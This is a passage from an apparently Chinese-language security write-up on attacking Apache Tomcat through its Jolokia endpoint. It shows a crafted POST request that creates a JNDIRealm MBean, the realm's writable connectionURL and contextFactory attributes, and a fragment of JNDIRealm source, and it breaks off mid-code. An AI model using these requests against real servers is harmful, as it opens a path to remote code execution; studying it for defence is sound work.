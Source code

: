 这里只传入了 parent。利用 Burpsuite 先创建这个 Realm。

```
POST /jolokia/ HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 133
{
    "type": "EXEC",
    "mbean": "Tomcat:type=MBeanFactory",
    "operation": "createJNDIRealm",
    "arguments": ["Tomcat:type=Engine"]
} 
```

创建成功后，我们查看这个 Realm 的 MBean 信息：

```
realmPath=/realm0,type=Realm: {
    op: {...},
    attr: {
        userPassword: {},
        ...
        connectionURL: {
            rw: true,
            type: "java.lang.String",
            desc: "The connection URL for the server we will contact"
        },
        roleNested: {},
        userSearch: {},
        connectionTimeout: {},
        authentication: {},
        contextFactory: {
            rw: true,
            type: "java.lang.String",
            desc: "The JNDI context factory for this Realm"
        },
        userPattern: {},
        ...
    },
    class: "org.apache.tomcat.util.modeler.BaseModelMBean",
    desc: "Implementation of Realm that works with a directory server a..."
} 
```

注意到两个有意思的属性，connectionURL 和 contextFactory。查看 JNDIRealm 的源码：

```
FILE: 

protected Hashtable<String, String> getDirectoryContextEnvironment() {

Hashtable<String, String> env = new Hashtable();

if (this.containerLog.isDebugEnabled() && this.connectionAttempt == 0) {

this.containerLog.debug("Connecting to URL " + this.connectionURL);

} else if (this.containerLog.isDebugEnabled() && this.connectionAttempt > 0) {

this.containerLog.debug("Connecting to URL " + this.alternateURL);

}

env.put(“java.naming.factory.initial”, this.contextFactory);

if (this.connectionName != null) {
```